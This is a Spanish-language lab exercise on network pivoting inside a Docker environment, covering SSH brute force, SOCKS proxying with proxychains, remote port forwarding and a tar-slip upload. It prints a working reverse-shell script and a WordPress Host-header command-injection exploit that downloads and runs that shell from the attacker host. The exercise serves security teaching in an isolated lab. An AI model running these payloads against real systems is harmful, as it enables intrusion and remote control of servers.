

Pivoting
El pivoting hace referencia a una técnica donde tras comprometer un equipo, nos damos cuenta de que éste nos da acceso a otros equipos o redes a los que de una forma directa no podríamos acceder. Así pues, nuestra máquina comprometida o máquina de salto nos sirve para seguir obteniendo nuevos accesos.
De forma esquemática
- "X" tiene acceso a "Y"
- "Y" tiene acceso a "Z"
- "X" no tiene acceso a "Z"
- "X" consigue acceso a "Z" utilizando "Y" cómo máquina de pivoting
Descripción de la práctica
Para la realización de esta práctica se montará una infraestructura completa en Docker tal y como muestra la siguiente imagen:

Tenemos dos contenedores llamados víctima 1 y víctima 2 ambos en la red 172.16.101.0/24. El atacante por otra parte en una subred diferente, la 172.16.100.0/24.
La máquina helper o gateway tiene dos interfaces, una en cada una de las dos subredes de este escenario.
Explicación de los archivos de docker compose
En primer lugar, tenemos un archivo docker-compose-subnet.yml cuyo fin único es la creación de las subredes que vamos a necesitar y que hemos nombrado anteriormente.
version: "3.8"
networks:
attacker:
driver: bridge
ipam:
driver: default
config:
- subnet: 172.16.100.0/24
gateway: 172.16.100.2
victim:
driver: bridge
ipam:
driver: default
config:
- subnet: 172.16.101.0/24
gateway: 172.16.101.3
La sección ipam es un acrónimo de IP Address Management y es dónde indicamos las direcciones de red así como las puertas de enlace. Para este escenario el driver por defecto (bridge) es suficiente.
Info
Si tenéis interés en saber los drivers de red que pueden existir y cuándo se usan, podéis leer aquí o un pequeño resumen aquí
Luego tenemos un docker-compose.yml para construir los contenedores que vamos a utilizar:
version: "3.8"
services:
attacker:
build:
context: ./dockerfiles
dockerfile: attacker.Dockerfile
container_name: attacker
hostname: attacker
extra_hosts:
- "helper:172.16.100.11"
links:
- helper
networks:
attacker:
ipv4_address: 172.16.100.10
helper:
build:
context: ./dockerfiles
dockerfile: helper.Dockerfile
container_name: helper
hostname: helper
extra_hosts:
- "victim1:172.16.101.20"
- "victim2:172.16.101.21"
networks:
attacker:
ipv4_address: 172.16.100.11
victim:
ipv4_address: 172.16.101.11
victim1:
build:
context: ./dockerfiles
dockerfile: victim1.Dockerfile
hostname: victim1
container_name: victim1
extra_hosts:
- "helper:172.16.101.11"
- "victim2:172.16.101.21"
networks:
victim:
ipv4_address: 172.16.101.20
victim2:
image: vulhub/wordpress:4.6
container_name: victim2
hostname: victim2
depends_on:
- mysql
environment:
- WORDPRESS_DB_HOST=172.16.101.22:3306
- WORDPRESS_DB_USER=root
- WORDPRESS_DB_PASSWORD=root
- WORDPRESS_DB_NAME=wordpress
ports:
- "8080:80"
extra_hosts:
- "helper:172.16.101.11"
- "victim1:172.16.101.20"
networks:
victim:
ipv4_address: 172.16.101.21
volumes:
- wp_vol:/var/www/html
mysql:
image: mysql:5
container_name: victim2_mysql
hostname: victim2sql
environment:
- MYSQL_ROOT_PASSWORD=root
networks:
victim:
ipv4_address: 172.16.101.22
wp-cli:
image: forumone/wordpress-cli:7.1-cli2.3.0
depends_on:
- mysql
- victim2
volumes:
- wp_vol:/var/www/html
networks:
victim:
command: >
/bin/sh -c '
sleep 10;
wp core install --path="/var/www/html" --url="http://172.16.101.21" --title="Pivot Your Way" --admin_user=admin --admin_password=adminpass --admin_email=admin@admin.com --allow-root
'
volumes:
wp_vol:
Para el caso del helper utilizamos como base una imagen de phusion que a su vez está basada en Ubuntu pero convenientemente modificada para que trabaje mejor con Docker. Más detalles aquí
Para este contenedor se ha habilitado el login de root mediante SSH, algo poco recomendable en términos de seguridad pero que para nuestro escenario ficticio y como prueba de concepto, nos es de utilidad.
La sentencia extra_hostsañade una entrada en el archivo /etc/hosts del contenedor para que de esta forma podamos utilizar su nombre, en lugar de la IP, para comunicarnos:
FROM phusion/baseimage:jammy-1.0.1
RUN apt update -y \
&& apt install -y \
ssh \
iputils-ping \
net-tools \
&& echo 'root:123456789' | chpasswd \
&& sed -i "s/#PasswordAuthentication no/PasswordAuthentication yes/g" /etc/ssh/sshd_config \
&& sed -i "s/#PermitRootLogin yes/PermitRootLogin yes/g" /etc/ssh/sshd_config \
&& echo 'GatewayPorts yes' >> /etc/ssh/sshd_config
CMD ["/usr/sbin/sshd", "-D"]
Para la imagen del contenedor attacker se utiliza la misma imagen de phusion como base o punto de partida. Además, también se instalan en él algunas utilidades que necesitaremos (ping, nmap, hydra...) como vemos en su Dockerfile:
FROM phusion/baseimage:jammy-1.0.1
LABEL maintainer="sauman"
LABEL name="attacker"
RUN apt update -y \
&& apt install -y \
nmap \
iputils-ping \
net-tools \
iproute2 \
proxychains4 \
hydra \
ncat \
&& curl https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Leaked-Databases/rockyou-05.txt -o /home/rock.txt
A continuación, el Dockerfile para victim1tampoco tiene mucho misterio. Con el comando wget descarga la herramienta sar2html. Se trata de na aplicación usada para graficar estadísticas de uso del sistema. Esta herramienta posee una vulnerabilidad que aprovecharemos más adelante para nuestro escenario:
FROM phusion/baseimage:jammy-1.0.1
RUN apt update -y \
&& apt install -y python3-pip
WORKDIR /opt
RUN apt install wget -y \
&& wget "https://master.dl.sourceforge.net/project/sar2html/sar2html-4.0.0.tar.gz?viasf=1" \
&& tar -xvf *
WORKDIR /opt/sar2html-4.0.0/
RUN pip3 install -r requirements.txt
CMD bash -c "./startWeb"
Por último, para victim2 no hace falta modificar ninguna imagen ya que en el registro de Docker ya existe una imagen de WordPress vulnerable. Simplemente construiremos el contenedor a partir de ella, configurando los parámetros adecuados, incluyendo además una base de datos MySQL.
Como añadido, utilizaremos wp-cli para la cnfiguración automática de Wordpress:
Construyendo y corriendo los contenedores:
En primer lugar construimos nuestro escenario:
docker-compose -f docker-compose-subnet.yml -f docker-compose.yml build
docker-compose -f docker-compose-subnet.yml -f docker-compose.yml up
Si listamos los contenedores arrancados, deberíamos tener 5.
Tarea
Comprueba que puedes hacer los siguientes pings utilizando los nombres adecuados para ello:
- De victim2 a victim1
- De victim1 a victim2
- De helper a victim1 y a victim2
- Comprueba que el ping de attacker a victim1 y a victim2 no es exitoso, no por nombre ni por IP
Ataque y pivoting
En esta fase lo primero que vamos a hacer es escanear los puertos del host helper.
Tarea
Accede por SSH a la máquina (contenedor) attacker y realiza un escaneo de puertos con nmap contra l máquina helper.
Tarea
En base a los descubrimientos del anterior punto, intenta obtener acceso a la máquina helper.
Puede ayudarte de hydra y del diccionario rockyou ubicado el el home.
Una vez obtenido el acceso al contenedor helper y haciendo uso del comando ip a, descubriremos que estamos conectados a dos redes diferentes, ya que tenemos dos interfaces, cada una conectada una de esas redes (172.16.100.11 y 172.16.101.11)
También es posible utilizar el comando hostname -I para ver todas las IP del host.
Con todos estos datos encima de la mesa, habiendo descubierto la infraestructura, podemos llevar a cabo una redirección de puertos utilizando un proxy SOCKS. Con esto conseguimos que todo el tráfico hacia un determinado puerto en el servidor destino, viaje a través de una conexión ssh.
Para ello debéis utilizar el comando, que deberéis completar, con la forma:
ssh __ 8500 _____@________ __ __
- Switch/opción que pondrá un puerto local a la escucha, de tal manera que todo lo dirigido a ese puerto se redirigirá por la conexión SSH a modo de proxy SOCKS, independientemente del destino
- Usuario para SSH
- IP para SSH
- Switch/opción para que la ejecución sea en background
- Switch/opción para deshabilitar la ejecución de comandos
Tarea
Comprueba con el comando netstat que este comando se está ejecutando en background.
Lo que necesitamos ahora es un proxy para poder enviar todo nuestro tráfico a través del puerto 8500 y que, por tanto, se produzca la redirección configurada anteriormente.
La herramienta que utilizaremos para este cometido es proxychains y por tanto hemos de configurarla en el archivo /etc/proxychains.conf, concretamente la línea del archivo que configura el socks4, debemos decirle que utilice el puerto 8500.
Consejo
Recordad que para cambiar valores en un fichero, podéis utilizar el comando:
sed -i 's/Término a sustituir/Término nuevo/g' archivo
Localizando nuevas víctimas
Nuestra prioridad ahora es encontrar nuevos hosts. Si tuviéramos nmap todo resultaría mucho más fácil pero siendo honestos, no es un escenario realista.
Tarea
Comprueba que en la máquina helper no tenemos disponible nmap.
De cualquier forma, sabemos que la máquina helper es parte de dos redes distintas. Ambas máquinas, helper y attacker, pertenecen a la misma red 172.16.100.0/24. Por ello, lo más lógico es escanear la red 172.16.101.0/24 en busca de todos los hosts presentes en ella.
Tarea
Para detectar los hosts presentes en 172.16.101.0/24, vamos a utilizar una técnica llamada ping sweep.
Utiliza un one-liner en bash que permita llevar a cabo esta técnica, documenta y examina los resultados.
Victim1
Intenta realizar un ping desde la máquina attacker a victim1.
Recuerda que para pasar el tráfico de nuestros comandos por el proxy y luego redirigirlo por nuestra conexión SSH, debemos precederlos de la palabra "proxychains", tal que así:
proxychains ping x.x.x.x
Pregunta
¿Por qué no podemos hacer ping utilizando proxychains?
A pesar de no poder hacer ping, sí que podemos usar Nmap para escanear puertos, al menos las opciones que utilizan TCP o UDP.
Tarea
Realiza desde la máquina attacker, haciendo uso de proxychains, un escaneo de puertos a la máquina victim1
- El escaneo con
nmapdebe ser del tipo connect scan - Se debe utilizar la opción de deshabilitar el descubrimiento de hosts (host discovery)
- Utilizad la opción de escaneo rápido para escanear únicamente los 100 puertos más comunes
Si has descubierto algún puerto abierto, utiliza el comando curl a través de proxychainspara comprobar si el host responde algo interesante en ese puerto.
Tarea
Si obtuvieras una respuesta positiva, intenta acceder a través del navegador para descubrir de qué se trata y documentalo.
Esta aplicación web posee una vulnerabilidad del tipo zip slip o tar slip.
Para explotar esta vulnerabilidad, podéis seguir los siguientes pasos:
- Descargar la herramienta generadora de POC (prueba de concepto)
-
Crear el archivo que utilizaremos:
echo Vulnerabilidad explotada > test.css -
Generar el archivo .tar malicioso. Mirando la ayuda del script del repositorio que nos hemos clonado antes, generaremos el archivo malicioso atendiendo a:
- Para el sistema operativo lnux
- El nombre del tar será "pivoting.tar" y contendrá el archivo "test.css"
- El path o ruta será static/css
- Una profundidad o número de directorios de los que se hará traversal, será de 3
-
En el apartado New host subir el archivo .tar generado
- Acceder a la ruta del archivo
Tarea
Comprueba y documenta que accediendo a la ruta del archivo podemos comprobar que esta máquina ha sido comprometida, tanto desde el navegador como desde el terminal (de la máquina attacker) con el comando curl, haciendo uso dde proxychains
Victim2
Para comenzar con esta nueva máquina, debemos realizar de nuevo un escaneo con nmap idéntico al anterior, a través de proxychains desde la máquina attacker a la máquina victim2 y al MySQL.
Tarea
Documenta los escaneos anteriores. ¿Qué CMS has descubierto que se está ejecutando?
Para vulnerar la máquina victim2, vamos a hacer uso de dos elementos:
-
Este código para una reverse shell
rev.sh#!/bin/bash rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 172.16.101.11 9000 >/tmp/f -
Este código como POC (proof of concept o prueba de concepto)
poc.shAntes de llevar a cabo la explotación, vamos a comprobar que existe conectividad entre vitim2 y attacker. Utilizando netcat (nc en victim2 y ncat attacker), intenta establecer una conexión de una a otra.#!/bin/bash function prep_host_header() { cmd="$1" rce_cmd="\${run{$cmd}}"; rce_cmd="`echo $rce_cmd | sed 's^/^\${substr{0}{1}{\$spool_directory}}^g'`" rce_cmd="`echo $rce_cmd | sed 's^ ^\${substr{10}{1}{\$tod_log}}^g'`" host_header="target(any -froot@localhost -be $rce_cmd null)" return 0 } if [ "$#" -ne 1 ]; then echo -e "Uso:\n$0 url-objetivo\n" exit 1 fi target="$1" http_server="172.16.101.11/rev.sh" # Guardamos el payload de la reverse shell en el objetivo, en el directorio /tmp/rev.sh cmd="/usr/bin/curl $http_server -o /tmp/rev.sh" prep_host_header "$cmd" curl -H "Host: $host_header" -s -d 'user_login=admin&wp-submit=Get+New+Password' "$target/wp-login.php?action=lostpassword" echo -e "\n\e[92m[+]\e[0m Payload enviado" # Obtenemos la reverse shell cmd="/bin/chmod +x /tmp/rev.sh" prep_host_header "$cmd" curl -H "Host: $host_header" -s -d 'user_login=admin&wp-submit=Get+New+Password' "$target/wp-login.php?action=lostpassword" echo -e "\n\e[92m[+]\e[0m Payload enviado" cmd="/bin/sh /tmp/rev.sh" prep_host_header "$cmd" curl -H "Host: $host_header" -s -d 'user_login=admin&wp-submit=Get+New+Password' "$target/wp-login.php?action=lostpassword" echo -e "\n\e[92m[+]\e[0m Payload enviado"
Cuestión
¿Consigues establecer esta conexión?¿Por qué?
Si repasamos el código de poc.sh vemos que el teórico curso de los acontecimientos ha de ser:
- Ejecutar un servidor web en el terminal de attacker para que el comando que se inyecte en la víctima haga que se descargue nuestra reverse shell
rev.shen su directorio/tmp:$ python3 -m http.server 80 - Poner a la escucha
ncaten attacker en un puerto de vuestra elección - Ejecutar desde attacker, obviamente haciendo uso de proxychains,
poc.shcontra la máquina victim2
Tarea
Ejecuta los pasos anteriores y comprueba si recibes correctamente la reverse shell.
Reverse shell
Aquí necesitamos utilizar el concepto de de remote port forwarding. Con esta técnica crearemos un nuevo túnel que nos permitirá redirigir todo el tráfico que vaya destinado al puerto 80 de la máquina victim2 hacia el puerto 80 de nuestra máquina attacker. Con esto conseguiremos que cuando ejecutemos poc.sh, se consiga la comunicación con el servidor web de python que se está ejecutando en attacker
Tarea
Consulta este link o cualquier otro que te sea necesario para entender el concepto de remote port forwarding y ser capaz de completar el siguiente comando, que deberá ser ejecutado en attacker:
ssh ___ :___:172.16.100.10:___ root@helper __ __
Tarea
Vuelve a realizar los pasos que hemos visto antes para ejecutar poc.sh y comprueba si hay algún cambio respecto a la situación anterior e indicua cuál y por qué.
Ahora sólo estamos a un pequeñísimo paso de conseguir nuestra shell inversa. Necesitamos una nueva redirección de puertos y lo tendremos todo listo.
Tarea
Documenta los pasos a seguir con la nueva redirección de puertos y el éxito comprometiendo esta nueva máquina. Elabora un diagrama en https://app.diagrams.net/ donde se vea el proceso:
ssh __ :__:172.16.100.10:__ __ :__:172.16.100.10:__ root@helper -N -fpython3 -m http.server 80ncat -lvnp 9000proxychains4 -q ./poc.sh 172.16.101.21
Cuestión
Cuestión
¿Cómo podemos evitar el uso de esta técnica de ataque con la redirección de puertos en SSH?
Pista: Gateway ports
Comprueba y documenta que con esta defensa, la técnica anteriormente empleada ya no funciona.
Referencias
SSH Tunneling: Local & Remote Port Forwarding
Túnel SSH port forwarding: Local, remote y dynamic [Explicado]